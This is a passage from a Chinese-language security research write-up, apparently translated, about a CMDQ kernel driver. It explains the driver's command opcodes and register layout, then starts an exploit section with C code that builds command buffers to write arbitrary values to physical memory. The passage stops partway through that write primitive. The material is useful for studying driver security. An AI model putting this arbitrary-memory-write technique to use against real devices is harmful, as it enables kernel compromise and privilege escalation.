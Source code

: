 WFE代表等待事件（Wait For Event）并清除。根据我们的理解，我们可以使用它来阻止某些寄存器的使用，就如同我们使用互斥锁一样。与该命令一起使用的事件标志与我们将在命令缓冲区中使用的一种寄存器相关联。例如，对于寄存器CMDQ_DATA_REG_DEBUG（R7）和CMDQ_DATA_REG_DEBUG_DST（P11），必须使用事件（或在源代码中调用的令牌）CMDQ_SYNC_TOKEN_GPR_SET_4。我们需要在每个命令缓冲区的开头和结尾使用WFE命令。<br>**CMDQ_CODE_EOC**<br>
EOC表示命令结束。必须将其放置在CMDQ_CODE_WFE命令之后每个命令缓冲区的末尾，以指示命令列表的结束。其中似乎包含许多标志，但是在我们所使用的场景中，我们似乎只需要设置IRQ标志中的内容即可。<br>**CMDQ_CODE_JUMP**<br>
根据源代码的评论区，它允许使用偏移量JUMP到命令缓冲区。在命令CMDQ_CODE_JUMP之后，我们在每个命令缓冲区的末尾使用该命令，将会始终跳转到偏移量0x8，也就是上一条命令。我们的理论是，预读取（Prefetch）机制是在DMA控制器中实现的，并且该命令确保将CMDQ_CODE_EOC命令考虑在内。

### <a class="reference-link" name="%E5%AF%84%E5%AD%98%E5%99%A8"></a>寄存器

在命令描述中，我们提到了寄存器，一共有两种寄存器，分别是：<br>
由32位组成的值寄存器（从R0到R15）；<br>
由64位组成的地址寄存器（从P0到P7）。

```
enum cmdq_gpr_reg {
    /* Value Reg, we use 32-bit */
    /* Address Reg, we use 64-bit */
    /* Note that R0-R15 and P0-P7 actually share same memory */
    /* and R1 cannot be used. */

    CMDQ_DATA_REG_JPEG = 0x00,  /* R0 */
    CMDQ_DATA_REG_JPEG_DST = 0x11,  /* P1 */

    CMDQ_DATA_REG_PQ_COLOR = 0x04,  /* R4 */
    CMDQ_DATA_REG_PQ_COLOR_DST = 0x13,  /* P3 */

    CMDQ_DATA_REG_2D_SHARPNESS_0 = 0x05,    /* R5 */
    CMDQ_DATA_REG_2D_SHARPNESS_0_DST = 0x14,    /* P4 */

    CMDQ_DATA_REG_2D_SHARPNESS_1 = 0x0a,    /* R10 */
    CMDQ_DATA_REG_2D_SHARPNESS_1_DST = 0x16,    /* P6 */

    CMDQ_DATA_REG_DEBUG = 0x0b, /* R11 */
    CMDQ_DATA_REG_DEBUG_DST = 0x17, /* P7 */
```

## 实现驱动程序漏洞利用

至此，我们已经对驱动程序的工作原理有了更深入的了解，接下来，我们将分析如何实现基本的内存读写。

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E5%86%99%E5%85%A5"></a>内存写入

要在内存中写入32位值，我们可以使用以下命令：<br>
1、将32位值移动到值寄存器中；<br>
2、将想要将其值放入地址寄存器的地址，移动到该地址；<br>
3、将值寄存器中的值，写入到地址寄存器中的地址。

```
// move value into CMDQ_DATA_REG_DEBUG
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = value;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

// move pa_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)pa_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
```